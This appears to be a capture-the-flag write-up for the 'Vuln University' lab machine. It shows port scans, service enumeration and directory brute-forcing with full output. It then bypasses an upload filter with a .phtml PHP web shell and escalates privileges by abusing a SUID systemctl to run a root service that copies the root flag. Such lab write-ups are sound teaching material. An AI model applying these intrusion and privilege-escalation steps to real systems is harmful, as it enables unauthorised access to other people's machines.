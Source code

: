 # Open Ports

```bash
$ masscan -p1-65535 10.10.6.125 --rate=1000 -e tun0 --output-format grepable --output-filename vulnuniversity.masscan

# Masscan 1.3.2 scan initiated Wed Jul 7 02:04:34 2021
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Timestamp: 1625623487 Host: 10.10.6.125 () Ports: 445/open/tcp//microsoft-ds//
Timestamp: 1625623545 Host: 10.10.6.125 () Ports: 3128/open/tcp//unknown//
Timestamp: 1625623578 Host: 10.10.6.125 () Ports: 22/open/tcp//ssh//
Timestamp: 1625623578 Host: 10.10.6.125 () Ports: 21/open/tcp//ftp//
Timestamp: 1625623583 Host: 10.10.6.125 () Ports: 139/open/tcp//netbios-ssn//
Timestamp: 1625623593 Host: 10.10.6.125 () Ports: 3333/open/tcp//unknown//
# Masscan done at Wed Jul 7 02:06:50 2021
```

# Service Enumeration

```bash
$ nmap -sC -sV -O -p139,21,22,3128,3333,445 10.10.6.125 -oA vulnuniversity

Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-06 21:11 CDT
Nmap scan report for 10.10.6.125
Host is up (0.087s latency).

PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| 256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_ 256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m47s, deviation: 2h18m34s, median: 47s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
| OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
| Computer name: vulnuniversity
| NetBIOS computer name: VULNUNIVERSITY\\x00
| Domain name: \\x00
| FQDN: vulnuniversity
|_ System time: 2021-07-06T22:13:11-04:00
| smb-security-mode: 
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
| 2.02: 
|_ Message signing enabled but not required
| smb2-time: 
| date: 2021-07-07T02:13:11
|_ start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.92 seconds
```

# Web Directory Brute Forcing

```bash
$ gobuster dir -u http://10.10.6.125:3333 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.6.125:3333
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.1.0
[+] Extensions: php,txt,html
[+] Timeout: 10s
===============================================================
2021/07/06 21:24:44 Starting gobuster in directory enumeration mode
===============================================================
/images (Status: 301) [Size: 318] [--> http://10.10.6.125:3333/images/]
/index.html (Status: 200) [Size: 33014] 
/css (Status: 301) [Size: 315] [--> http://10.10.6.125:3333/css/] 
/js (Status: 301) [Size: 314] [--> http://10.10.6.125:3333/js/] 
/fonts (Status: 301) [Size: 317] [--> http://10.10.6.125:3333/fonts/] 
/internal (Status: 301) [Size: 320] [--> http://10.10.6.125:3333/internal/]
Progress: 19372 / 326576 (5.93%) ^C
[] Keyboard interrupt detected, terminating.
===============================================================
2021/07/06 21:27:50 Finished
===============================================================
```

Upload files to `/internal` 

# File Upload

## Upload Form

![Pasted image 20210706213315](Pasted%20image%2020210706213315.png)


## Bypass Upload Filter

Apache web server on port 3333, so `PHP` is the focus

Uploads are filtered by extension (`php`, `php2`, etc.), but  `.phtml` is allowed

Upload PHP web shell `tgihf.phtml`

## Successful Web Shell Upload

![Pasted image 20210708233733](Pasted%20image%2020210708233733.png)

---

# Privilege Escalation

## SUID Executables

![Pasted image 20210709210129](Pasted%20image%2020210709210129.png)

`systemctl` is SUID executable and owned by `root`

## Create a Service to Grab the Flag

### Service file (`tgihf.service`)

```
[Unit]
description=tgihf

[Service]
Type=simple
User=root
ExecStart=/dev/shm/tgihf.sh

[Install]
WantedBy=multi-user.target
```

### `Bash` script to grab the flag (`tgihf.sh`)

```
#!/bin/bash
cp /root/root.txt /dev/shm/
```

Save both in `/dev/shm` and set `/dev/shm/tgihf.sh` to executable.

## Enable and Start the Service

```bash
systemctl enable /dev/shm/tgihf.sh
systemctl start tgihf
```

Grab the flag from `/dev/shm/root.txt`.